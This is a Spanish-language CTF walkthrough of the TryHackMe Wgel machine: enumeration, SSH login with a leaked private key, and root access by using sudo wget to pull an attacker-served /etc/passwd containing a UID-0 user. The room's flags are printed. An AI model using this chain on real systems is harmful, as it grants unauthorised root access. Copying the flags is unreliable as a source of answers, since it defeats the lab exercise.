# TryHackMe - Wgel CTF Writeup


**Author:** Isaac Muñoz
**Date:** 2026-07-04
**Machine IP:** 10.64.186.36

---

## Introducción

**Wgel CTF** es una máquina Linux (Ubuntu 16.04) que corre un servidor web **Apache** y **SSH**. El vector de compromiso combina tres fallos encadenados: una fuga de nombre de usuario en un comentario del código fuente, un directorio oculto en el servidor web que expone una clave privada SSH sin ninguna restricción, y una regla de **sudo** mal configurada sobre `wget` que permite escalar a privilegios de root.

Enlace de la sala: [tryhackme.com/room/wgelctf](https://tryhackme.com/room/wgelctf)

---

## Reconocimiento / Enumeración con Nmap

Arranco con un escaneo completo de puertos para no perder nada:

```bash
nmap -sS -p- --open 10.64.186.36 --min-rate 5000 -n -oN allPorts
```

- `-sS`: escaneo **SYN** (sigiloso), no completa el handshake TCP.
- `-p-`: escanea los 65535 puertos.
- `--open`: solo muestra puertos abiertos.
- `--min-rate 5000`: fuerza un envío mínimo de 5000 paquetes/segundo para acelerar el escaneo.
- `-n`: desactiva la resolución DNS inversa.
- `-oN allPorts`: guarda el resultado en formato normal en el archivo `allPorts`.



Aparecen dos puertos abiertos:
- **22/tcp** — ssh
- **80/tcp** — http

Con eso lanzo un escaneo de versión más dirigido solo sobre esos dos puertos:

```bash
nmap -sCV -p22,80 --min-rate 5000 -vvv -oN versionPorts 10.64.186.36
```

- `-sCV`: combina el escaneo de scripts por defecto (`-sC`) con la detección de versión (`-sV`).
- `-p22,80`: limita el escaneo a los puertos ya encontrados.
- `-vvv`: salida extra verbosa.
- `-oN versionPorts`: guarda el resultado en el archivo `versionPorts`.



- **22/tcp open ssh** — **OpenSSH** 7.2p2 (Ubuntu Linux; protocolo 2.0)
- **80/tcp open http** — **Apache httpd** 2.4.18 (Ubuntu), título "Apache2 Ubuntu Default Page: It works"

### Enumeración Web

Al entrar al puerto 80 desde el navegador solo veo la página por defecto de Apache en Ubuntu, sin nada personalizado a simple vista.



Como suele haber pistas escondidas en el HTML de estas páginas "por defecto", reviso el código fuente con `view-source:` y encuentro un comentario que no debería estar ahí:



El comentario menciona a un usuario llamado **Jessie** — una fuga de información directa que me da un nombre de usuario válido para probar más adelante.

Sigo enumerando directorios sobre la raíz del sitio con **Gobuster**:

```bash
gobuster dir --url http://10.64.186.36/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -o webScan
```

- `dir`: modo de enumeración de directorios/archivos.
- `--url`: URL objetivo.
- `-w`: wordlist a usar (SecLists `common.txt`).
- `-o webScan`: guarda el resultado en el archivo `webScan`.



Entre los resultados aparece `sitemap` (código 301, redirección). Al visitarlo desde el navegador no encuentro nada útil de forma directa — es una plantilla web genérica de un dashboard tipo CRM ("Unapp"), contenido de relleno sin relación aparente con el objetivo.


Como ahí no hay nada visible, repito la enumeración de directorios pero apuntando dentro de `/sitemap/`:

```bash
gobuster dir --url http://10.64.186.36/sitemap/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -o webScan2
```



Esta vez aparece un directorio oculto interesante: `.ssh` (código 301). Al entrar, el listado de directorio está activado y expone un archivo `id_rsa`:



Es una **clave privada SSH** expuesta públicamente — la descargo de inmediato:

```bash
wget http://10.64.186.36/sitemap/.ssh/id_rsa
```



---

## Vulnerabilidades Identificadas

- **Information Disclosure** — nombre de usuario expuesto en un comentario HTML de la página por defecto de Apache.
- **Exposición de credenciales** — listado de directorio activado en `/sitemap/.ssh/`, que permite descargar la clave privada `id_rsa` sin ninguna restricción.
- **Sudo mal configurado (Privilege Escalation)** — el usuario `jessie` puede ejecutar `/usr/bin/wget` como root sin contraseña (`NOPASSWD`), lo que permite escribir archivos arbitrarios en el sistema con privilegios de root (técnica documentada en **GTFOBins**).

---

## Explotación

### Paso 1 — Acceso inicial vía SSH con la clave filtrada

Antes de usar la clave, le doy los permisos que exige SSH:

```bash
chmod 600 id_rsa
```

Como el nombre visto en el comentario HTML era **Jessie** (con mayúscula), intento primero así, pero Linux distingue mayúsculas/minúsculas en los nombres de usuario:

```bash
ssh -i id_rsa Jessie@10.64.186.36
```

Pruebo de nuevo en minúsculas, que es la convención estándar para cuentas de sistema en Linux:

```bash
ssh -i id_rsa jessie@10.64.186.36
```



Esta vez la clave privada funciona y entro directamente como el usuario **jessie** en el host `CorpOne`.

Reviso el directorio del usuario y encuentro la flag de usuario:

```bash
cat Documents/user_flag.txt
```



- La flag de usuario es **`057c67131c3d5e42dd5cd3075b198ff6`**

### Paso 2 — Escalada de privilegios vía sudo mal configurado (wget)

Reviso qué puedo ejecutar como root:

```bash
sudo -l
```



El resultado muestra que `jessie` puede ejecutar `/usr/bin/wget` como root **sin contraseña** (`NOPASSWD`). Reviso **GTFOBins** para confirmar cómo abusar de `wget` bajo sudo:



`wget` con sudo permite escribir el contenido descargado en cualquier ruta del sistema usando `-O`, ignorando permisos — puedo usarlo para sobrescribir `/etc/passwd` con una versión modificada que incluya un usuario con privilegios de root.

Para eso preparo un `/etc/passwd` modificado en mi máquina, agregando una línea de usuario con UID y GID `0` (equivalente a root). Primero genero el hash de una contraseña que yo controle:

```bash
openssl passwd -1 "password"
```

- `-1`: genera el hash usando el algoritmo MD5 (formato `$1$...`), compatible con el campo de contraseña de `/etc/passwd`.

Con el hash generado, agrego la nueva línea al archivo `passwd-mod` (una copia local del `/etc/passwd` del objetivo con el usuario `admin` añadido al final):

```bash
echo 'admin:$1$bXl8Tdtm$kPpnR2LkdN79nfJMIbsjg1:0:0::/root:/bin/bash' >> passwd-mod
```



El nuevo usuario `admin` queda con UID `0` y GID `0` — equivalente a `root` — y con la contraseña `password` que definí.

Para que el objetivo pueda descargar este archivo, levanto un servidor HTTP simple en la misma carpeta donde está `passwd-mod`, usando la IP de mi túnel VPN de TryHackMe:

```bash
ip a
python3 -m http.server 80
```



Con el servidor arriba en `192.168.128.154:80`, vuelvo a la sesión SSH como `jessie` y abuso de la regla `NOPASSWD` de `wget` para sobrescribir `/etc/passwd` en el objetivo:

```bash
sudo /usr/bin/wget http://192.168.128.154/passwd-mod -O /etc/passwd
```

- `-O /etc/passwd`: en vez de guardar el archivo con su nombre original, lo guarda directamente sobre `/etc/passwd`, sobrescribiéndolo.



---

## Flag

Confirmo que `/etc/passwd` en el objetivo ya tiene mi usuario `admin` con UID `0` al final del archivo, y cambio a esa cuenta con la contraseña que definí:

```bash
tail /etc/passwd
su admin
```



Con acceso como **`admin`** (UID/GID `0`, equivalente a root), reviso el directorio raíz del sistema y obtengo la flag final:

```bash
cat root_flag.txt
```

- La flag de root es **`b1b968b37519ad1daa6408188649263d`**

Se puede verificar el acceso como usuario equivalente a **root** con la lectura directa de `root_flag.txt` en `/root`.
